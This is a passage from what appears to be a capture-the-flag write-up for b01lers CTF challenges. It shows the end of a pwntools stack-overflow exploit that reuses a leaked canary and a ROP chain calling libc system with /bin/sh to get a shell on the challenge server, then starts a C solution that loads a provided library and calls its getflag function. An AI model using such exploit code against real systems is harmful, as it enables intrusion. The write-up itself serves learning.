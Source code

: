     p = "A" * 24
    p += p64(canary)
    p += p64(99)
    p += p64(add_rsp_8_ret ) 
    p += p64(pop_rdi)
    p += p64(pop_rdi)
    p += p64(binsh)
    p += p64(ret)
    p += p64(libc_system)
    p += p64(0xbeef)
    p += p64(0xdead)
    r.sendline("106")
    r.sendline(p)
    r.sendline("X")


    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("chal.ctf.b01lers.com", 1009)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)
 

{% endhighlight %}

<h1 id="LinkBattle">Link Battle</h1>

### Description:

    Hmm....I hope you paid attention in class, spies!

### Solution:

since we were given a `.so` file, we can write a C code that load the `.so` file and call getflag function.

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dlfcn.h>

int main(int argc, char** argv)
{
    void *handle;
    void (*func_print_name)(const int*);

    handle = dlopen("./ok/libflaggen-f2c2f9306bdbae9522d200db5bd9f55d.so", RTLD_LAZY);
    if (!handle) {
    /* fail to load the library */
    fprintf(stderr, "Error: %s\n", dlerror());
    return EXIT_FAILURE;
    }

    *(void**)(&func_print_name) = dlsym(handle, "getflag");
    if (!func_print_name) {
    /* no such symbol */
    fprintf(stderr, "Error: %s\n", dlerror());
    dlclose(handle);
    return EXIT_FAILURE;
    }
